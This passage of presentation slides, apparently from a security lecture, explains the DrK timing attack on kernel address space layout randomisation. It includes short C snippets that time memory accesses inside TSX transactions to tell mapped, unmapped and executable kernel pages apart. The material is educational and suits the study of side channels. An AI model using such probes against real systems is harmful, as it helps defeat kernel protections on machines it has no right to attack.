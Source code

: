 

---

## Attacks against KASLR - DrK

**Idea**:
Page faults and access violations take different amounts of time depending on the status of the page

Measure the clock cycles for memory accesses and infer whether it is:
- mapped / unmapped
- executable / not executable





---

## Attacks against KASLR - DrK

```c
uint64_t do_probe_memory(void* addr) {
  uint64_t beg = rdtsc_beg();               // start timer

  if (_xbegin() == _XBEGIN_STARTED) {
                                            // generates access violation
    asm volatile("mov rax, [addr]");        // mapped vs unmapped
  } else {
    return rdtsc_end() - beg;               // compute time difference
  }
}
```




---



## Attacks against KASLR - DrK

```c
uint64_t do_probe_memory(void* addr) {
  uint64_t beg = rdtsc_beg();               // start timer

  if (_xbegin() == _XBEGIN_STARTED) {
                                            // generates access violation
    asm volatile("mov rax, addr; jmp rax"); // executable vs non-executable
  } else {
    return rdtsc_end() - beg;               // compute time difference
  }
}
```

